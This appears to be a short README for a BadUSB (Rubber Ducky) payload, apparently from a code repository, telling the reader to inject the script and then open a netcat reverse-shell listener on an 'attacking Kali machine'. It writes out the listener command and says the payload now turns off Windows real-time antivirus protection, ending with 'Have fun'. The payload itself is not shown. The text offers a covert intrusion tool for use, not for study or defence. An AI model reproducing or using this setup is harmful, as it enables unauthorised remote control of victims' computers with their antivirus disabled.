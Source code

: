 use the script for inject. bin 
then.
Open terminal on attacking Kali machine and enter

stty raw -echo; (stty size; cat) | nc -lvnp (port number)

This code is based on a video by Networkchuck. I just made the Ducky script.
Now updated to turn off windows realtime anti virus protection

Have fun.
Dark Storme

